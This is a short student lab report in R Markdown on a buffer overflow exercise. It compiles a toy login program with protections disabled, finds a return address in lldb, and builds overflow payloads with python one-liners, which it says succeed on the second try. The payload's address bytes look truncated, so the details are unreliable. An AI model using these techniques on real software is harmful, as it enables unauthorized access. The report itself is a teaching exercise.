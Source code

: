 ```yaml
---
title: "Buffer Overflow Lab Report"
author: "Muyuan Zhang"
date: "`r Sys.Date()`"
output: pdf_document
---
```


```r
knitr::opts_chunk$set(echo = TRUE)
```

First, compile the program and run `./login`.

```
clang --target=macos-x86_64 -g -O0 -fno-stack-protector -fomit-frame-pointer -Wl,-no_pie login.c
```

Then get into lldb:

```
lldb ./a.out
```

After getting into the lldb, run the following command:

```
disassemble -n main
```

And we can get:

```
a.out[0x100003edb] <+27>: callq  0x100003df0               ; success at login.c:8
```

Here, we can get the address which is 0x100003edb. Then use the address to 
substitute to exploit the buffer overflow and run the following command:

```
python3 -c  'import sys; sys.stdout.buffer.write(b"a"*10 + b"\xdb\x3e\x00\x00")' > password.txt
```

Oops, it says "wrong password". Modify the content to be written in to:

```
python3 -c  'import sys; sys.stdout.buffer.write(b"a"*40 + b"\xdb\x3e\x00\x00")' > password.txt
```

Then we are able to exploit the buffer overflow.
